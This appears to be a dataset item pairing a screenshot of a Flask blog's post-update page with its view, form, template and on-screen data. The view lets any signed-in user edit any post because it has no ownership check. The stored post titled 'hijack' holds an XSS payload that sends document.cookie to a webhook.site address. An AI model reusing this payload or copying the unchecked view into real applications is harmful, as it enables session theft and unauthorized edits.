
The app's page /post/2/update (signed in) with its own data.
### flaskshop/models.py (models this page shows, shortened)
class Post(db.Model):
    id = db.Column(db.Integer, primary_key=True)
    title = db.Column(db.String(100), nullable=False)
    date_posted = db.Column(db.DateTime, nullable=False, default=datetime.utcnow)
    content = db.Column(db.Text, nullable=False)
    user_id = db.Column(db.Integer, db.ForeignKey('user.id'), nullable=False)

### flaskshop/routes.py (the view)
@app.route("/post/<int:post_id>/update", methods=['GET', 'POST'])
@login_required
def update_post(post_id):
    post = Post.query.get_or_404(post_id)
    form = PostForm()
    if form.validate_on_submit():
        post.title = form.title.data
        post.content = form.content.data
        db.session.commit()
        flash('Your post has been updated!', 'success')
        return redirect(url_for('post', post_id=post.id))
    elif request.method == 'GET':
        form.title.data = post.title
        form.content.data = post.content
    return render_template('create_post.html', title='Update Post',
                           form=form, legend='Update Post')

### flaskshop/forms.py
class PostForm(FlaskForm):
    title = StringField('Title', validators=[DataRequired()])
    content = TextAreaField('Content', validators=[DataRequired()])
    submit = SubmitField('Post')

### flaskshop/models.py (called while the page is built)
@login_manager.user_loader
def load_user(user_id):
    return User.query.get(int(user_id))

### flaskshop/templates/create_post.html (shortened to what this page needs)
{% extends "layout.html" %}
{% block content %}
<div class="content-section">
    <form method="POST" action="">
        <fieldset class="form-group">
            <legend class="border-bottom mb-4">{{ legend }}</legend>
            <div class="form-group">
                {{ form.title.label(class="form-control-label") }}
                {% if form.title.errors %}
                    {{ form.title(class="form-control form-control-lg is-invalid") }}
                    <div class="invalid-feedback">
                        {% for error in form.title.errors %}
                            <span>{{ error }}</span>
                        {% endfor %}
                    </div>
                {% else %}
                    {{ form.title(class="form-control form-control-lg") }}
                {% endif %}
            </div>
            <div class="form-group">
                {{ form.content.label(class="form-control-label") }}
                {% if form.content.errors %}
                    {{ form.content(class="form-control form-control-lg is-invalid") }}
                    <div class="invalid-feedback">
                        {% for error in form.content.errors %}
                            <span>{{ error }}</span>
                        {% endfor %}
                    </div>
                {% else %}
                    {{ form.content(class="form-control form-control-lg",rows="10") }}
                {% endif %}
            </div>
        </fieldset>
        <div class="form-group">
            {{ form.submit(class="btn btn-outline-info") }}
        </div>
    </form>
</div>
{% endblock content %}

### flaskshop/static/main.css (style rules this page uses)
body { background: #fafafa; color: #333333; margin-top: 5rem; }
.content-section { background: #ffffff; padding: 10px 20px; border: 1px solid #dddddd; border-radius: 3px; margin-bottom: 20px; }

### records on screen
Post: title "hijack", content "<img src=https://github.com/favicon.ico width=0 height=0 onload=this.src='https://webhook.site/7b155317-5519-474d-adad-5eb00b9cbadc?cookie'+document.cookie>"

### other values on screen
{{ legend }} "Update Post"
